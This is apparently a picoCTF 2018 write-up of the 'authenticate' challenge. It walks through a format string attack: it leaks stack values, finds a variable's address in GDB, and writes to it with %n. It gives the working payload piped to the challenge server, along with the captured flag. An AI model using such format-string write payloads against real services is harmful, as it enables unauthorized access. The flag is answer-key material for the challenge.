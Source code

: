 # authenticate
Binary Exploitation - 350 points

## Challenge 
> Can you [authenticate](auth) to this service and get the flag? Connect with nc 2018shell2.picoctf.com 52398. 

>[Source.](auth.c)

## Hint
> What happens if you say something OTHER than yes or no?

## Solution

References

- https://ehsandev.com/pico2014/binary_exploitation/format.html
- https://stackoverflow.com/questions/19166698/format-strings-and-using-n-to-overwrite-memory-address-with-specific-value

### Format string attack

If we don't input either yes or no, it will print our input value


	$ nc 2018shell2.picoctf.com 52398
	Would you like to read the flag? (yes/no)
	'%{num}$08x'
	%08$08x
	%08$08x
	%08$08x
	%08$08x
	 %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x
	Received Unknown Input:

	080489a6 f77c25a0 0804875a f77f9000 f77f9918 ffbcd5f0 ffbcd6e4 00000000 ffbcd684 0000042a 78383025 38302520 Sorry, you are not *authenticated*!

Since we want to modify `authenticated`, let's first find its address through GDB

	(gdb) p &authenticated
	$1 = (<data variable, no debug info> *) 0x804a04c <authenticated>


For format string, we need to first find out what buffer area we can control to select the address of the `authenticated` variable

	$ for num in {1..10}; do echo "ABCD $num %$num\$08x" | ./auth ; done; 
	...

	Would you like to read the flag? (yes/no)
	Received Unknown Input:

	ABCD 11 44434241
	Sorry, you are not *authenticated*!

So we can control offset 11 and set the address to `0x804a04c`. Afterwhich we use `%n` write to it.

	\x4c\xa0\x04\x08 %11$n

## Flag

	
	$ python -c 'print "\x4c\xa0\x04\x08 %11$n"' | nc 2018shell2.picoctf.com 52398
	Would you like to read the flag? (yes/no)
	Received Unknown Input:

	L 
	Access Granted.
	picoCTF{y0u_4r3_n0w_aUtH3nt1c4t3d_0bec1698}

